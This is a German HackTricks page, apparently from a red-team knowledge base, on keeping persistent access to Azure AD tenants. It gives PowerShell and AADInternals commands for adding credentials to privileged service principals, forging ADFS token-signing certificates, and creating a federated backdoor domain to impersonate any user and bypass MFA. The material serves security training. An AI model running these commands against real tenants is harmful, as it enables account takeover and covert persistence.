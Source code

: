 # Az - Persistenz

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

### Illegitime Zustimmungserteilung

Standardmäßig kann sich jeder Benutzer in Azure AD registrieren. Sie können also eine Anwendung registrieren (nur für das Zielmandant), die hohe Auswirkungsberechtigungen mit Admin-Zustimmung benötigt (genehmigen Sie sie, wenn Sie der Administrator sind) - wie das Senden von E-Mails im Namen eines Benutzers, Rollenverwaltung usw. Dies ermöglicht es uns, **Phishing-Angriffe** durchzuführen, die im Erfolgsfall sehr **erfolgreich** wären.

Darüber hinaus könnten Sie diese Anwendung auch mit Ihrem Benutzer akzeptieren, um den Zugriff darauf aufrechtzuerhalten.

### Anwendungen und Dienstprinzipale

Mit den Berechtigungen eines Anwendungsadministrators, GA oder einer benutzerdefinierten Rolle mit Berechtigungen für microsoft.directory/applications/credentials/update können wir Anmeldeinformationen (Geheimnis oder Zertifikat) zu einer vorhandenen Anwendung hinzufügen.

Es ist möglich, auf eine Anwendung mit hohen Berechtigungen abzuzielen oder eine neue Anwendung mit hohen Berechtigungen hinzuzufügen.

Eine interessante Rolle, die der Anwendung hinzugefügt werden könnte, ist die **Rolle des privilegierten Authentifizierungsadministrators**, da sie es ermöglicht, das Passwort von Globalen Administratoren **zurückzusetzen**.

Diese Technik ermöglicht es auch, die **MFA zu umgehen**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Für die Authentifizierung basierend auf Zertifikaten

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Föderation - Token-Signaturzertifikat

Mit **DA-Berechtigungen** auf dem lokalen AD ist es möglich, **neue Token-Signatur**- und **Token-Entschlüsselungszertifikate** zu erstellen und zu importieren, die eine sehr lange Gültigkeitsdauer haben. Dies ermöglicht es uns, uns als **beliebiger Benutzer** anzumelden, dessen ImuutableID wir kennen.

**Führen Sie** den folgenden Befehl als **DA auf den ADFS-Server(n)** aus, um neue Zertifikate zu erstellen (Standardpasswort 'AADInternals'), fügen Sie sie zu ADFS hinzu, deaktivieren Sie die automatische Rollback-Funktion und starten Sie den Dienst neu:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Dann aktualisieren Sie die Zertifikatinformationen mit Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Föderation - Vertrauenswürdige Domäne

Mit GA-Berechtigungen in einem Mandanten ist es möglich, eine **neue Domäne hinzuzufügen** (muss überprüft werden), ihren Authentifizierungstyp auf Föderiert zu konfigurieren und die Domäne so zu konfigurieren, dass sie einem bestimmten Zertifikat (any.sts im folgenden Befehl) und Herausgeber vertraut:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referenzen

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
